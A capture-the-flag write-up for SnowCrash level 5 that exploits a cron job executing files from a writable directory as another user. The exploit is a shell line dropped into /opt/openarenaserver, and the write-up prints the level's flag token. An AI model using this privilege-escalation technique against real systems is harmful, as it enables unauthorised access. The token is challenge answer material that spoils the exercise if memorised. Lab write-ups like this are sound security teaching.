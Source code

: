 # Level05

When we connect on the machine, we have a message displayed: 
```bash
level05@192.168.56.116's password: 
You have new mail.
level05@SnowCrash:~$ cd /var/mail/
level05@SnowCrash:/var/mail$ ls
level05
level05@SnowCrash:/var/mail$ cat level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

The `level05` file seem to be an hint about a crontab.

The home is empty but in `/usr/sbin/openarenaserver` have a `script bash`.
It execute all files presents in `/opt/openarenaserver/` and delete it.  

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

We must create a file with our command like `/bin/getflag`. Because of the file is deleted after his execution,
we must redirect the output in a `safe file` like `/tmp/flag`.

```bash
level05@SnowCrash:/var/mail$ echo "/bin/getflag > /tmp/flag" > /opt/openarenaserver/file
level05@SnowCrash:/var/mail$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:/var/mail$ su level06
Password: 
level06@SnowCrash:~$
```

